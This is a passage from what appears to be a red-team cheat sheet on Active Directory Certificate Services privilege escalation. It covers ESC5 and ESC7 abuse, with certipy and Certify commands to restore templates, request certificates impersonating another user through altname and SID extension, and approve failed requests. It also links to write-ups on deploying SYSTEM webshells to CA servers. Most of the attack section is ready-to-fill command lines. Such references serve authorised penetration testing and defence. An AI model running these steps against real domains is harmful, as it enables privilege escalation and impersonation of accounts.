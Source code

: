 ````
#### Restore template
```
certipy template -u <USER> -hashes <NTLM HASH> -template <TEMPLATE NAME> -configuration '<JSON>.json'
```

### ESC5 Vulnerable PKI Object ACEs
- Such as AD CS computer object or Containers
	- Compromising the CA's server's computer object using RBCD or Shadow Credentials
	- ACLs misconfigured to a descendant AD object (Certificate template, Certificate Authorities container, the NTAuthCertificates subject)

#### RBCD or Shadow Credentials
- [RBCD](#Computer-object-takeover)
- [Shadow Credentials](#Permissions-on-a-ComputerObject)

### ESC7 Vulnerable CA ACL
- A low privilege user is granted the ManageCA (CA Administrator) and ManageCertificates (Certificate Manager) rights over the CA.
- Bypass CBA patch in full enforcement mode:
	- ESC 7.1 Abusing SubCA template to approve a failed request using ManageCertificates rights: https://www.tarlogic.com/blog/ad-cs-esc7-attack
	- ESC 7.2  Abusing CRL Distribution Points (CDPs) and using them to deploy SYSTEM webshells to CA servers respectively: https://www.tarlogic.com/blog/ad-cs-manageca-rce/

### ESC7.1 Failed request
- Requirements:
	- User with `Allow ManageCA and ManageCertificates`
	- `SubCA` template enabled (or enable it). Should be enabled by default but only Domain Admins or Enterprise Admins can enroll by default!

### Windows
#### Check CA for user with permissions
```
.\Certify.exe cas
```

#### Check if SubCA is enabled
```
.\Certify.exe find
```

#### Get SID of user 
```
Get-DomainUser <SAMACCOUNTNAME> | Select-Object samaccountname, objectsid
```

#### Create failed request
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE> /altname:<USER> /domain:<DOMAIN> /sidextension:<TARGET OBJECT SID>
```

#### Save private key
```
notepad esc7.pem
```

#### Approve failed certificate
- https://github.com/blackarrowsec/Certify
	- This fork of Certify requires RSAT ADDS tools installed.
- Requires `ManageCA` and `ManageCertificates` permissions
```
.\Certify-esc7.exe issue /ca:<FQDN CA>\<CA NAME> /id:<REQUEST ID>
```

````